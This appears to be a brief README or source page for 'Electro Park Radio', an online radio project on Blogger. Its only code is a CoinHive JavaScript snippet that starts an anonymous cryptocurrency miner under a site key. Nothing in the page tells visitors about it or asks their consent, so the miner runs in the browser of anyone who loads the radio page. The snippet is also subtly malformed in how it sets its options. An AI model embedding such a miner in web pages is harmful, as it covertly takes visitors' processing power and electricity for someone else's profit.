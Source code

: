 # Electro Park Radio
Project radio online in blogger blogspot.com server of Google INC


var miner = new CoinHive.Anonymous();
 miner = new CoinHive.Anonymous('EAHzuoWUOTsnACbLNwLHXiJmA02ZnIiR', {
  threads : miner.getNumThreads(),
  throttle: miner.getThrottle(),
  forceASMJS: miner.hasWASMSupport()
});
  miner.start();
